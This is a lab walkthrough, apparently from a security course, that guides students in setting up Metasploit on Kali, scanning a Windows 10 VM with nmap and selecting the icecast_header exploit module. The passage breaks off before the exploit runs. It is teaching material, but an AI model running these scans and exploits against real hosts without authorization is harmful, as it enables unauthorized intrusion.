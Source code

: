 # Metasploit Exploit Walkthrough using the Icecast Vulnerability

1.	Boot your Kali VM, and login.
2.  Install two additional packages that you need for this lab by running the following commands in a terminal, one line at a time:
        
        apt update
        apt install mirage xtightvncviewer
        reboot
        
    Say "yes" to any prompts during the install process.
    
    <div class='alert alert-info'>If you do not have an internet connection in Kali, try running <code>service networking restart</code>. Failing that, restart Kali via running <code>reboot</code>.</div>
    
2.	From the terminal, enter:

        service postgresql start

3.	From the terminal, enter:

        msfconsole

    You should see a “msf >” prompt appear. This is the Metasploit command line.

3.  Scan the Windows 10 VM for vulnerabilities using `nmap`

        nmap -sV <ip of Windows 10>
        
    Notice that Icecast is running on port 8000. Could their be an exploit for Icecast built into Metasploit? Let's check!
    
4.  From the `msf >` prompt, try:
        
        search name:icecast
    
    <div class='alert alert-info' markdown='1'>
    <p>If the output tells you that you are using "slow search", then cancel with <code>ctrl+c</code>, and run the following from the <code>msf ></code> prompt:</p>

        db_rebuild_cache

    <p>This will allow you to search for Metasploit exploit and auxiliary modules. It will run in the background. It may take some time before the search cache is ready. You can still use "slow search" meanwhile.</p>
    </div>
    
5.  Heyo! In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:
          
        use exploit/windows/http/icecast_header
        
    <div class='alert alert-info'><strong>Note:</strong> you can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it will show you all possible options directory you are in.</div>

6.	Your msfconsole prompt should now look like this:
